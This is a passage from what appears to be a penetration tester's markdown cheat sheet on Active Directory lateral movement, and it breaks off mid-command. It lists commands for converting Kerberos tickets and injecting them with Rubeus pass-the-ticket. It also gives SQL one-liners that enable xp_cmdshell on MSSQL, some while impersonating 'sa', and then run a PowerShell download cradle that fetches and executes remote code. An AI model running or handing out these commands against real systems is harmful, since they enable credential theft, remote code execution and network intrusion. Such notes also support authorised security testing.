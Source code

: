 ## Lateral Movement 

```ad-seealso
title:Lateral Movement Techniques
collapse:true 

~~~dataview
list from #lateralmovement 
sort file.name asc
~~~
```

```ad-example
title: Convert Kerberos Tickets
collpase:yes

Converting a ccache file found in tmp: 

~~~bash
impacket-ticketConverter krb5cc_ ticket.kirbi
~~~

Converting kirbi to ccache

~~~bash
impacket-ticketConverter ticket.kirbi krb5cc_
~~~

Injecting ticket with Rubeus: 

~~~powershell
Rubeus.exe ptt /ticket:ticket.kirbi
~~~
```

```ad-example
title: MSSQL Lateral Movement
collpase:yes

[MSSQL AD Abuse | HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql)
[Pentesting MSSQL | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[MSSQL Injection | PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
[SQL injection cheat sheet | PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)


Enable xp_cmdshell on current machine (one-liner)

~~~sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell DOWNLOADCRADLE'
~~~

Enable xp_cmdshell on current machine impersonating 'sa'

~~~sql
EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell DOWNLOADCRADLE'
~~~

Enable xp_cmdshell on remote machine impersonating 'sa'

~~~sql
EXECUTE AS LOGIN = 'sa';
```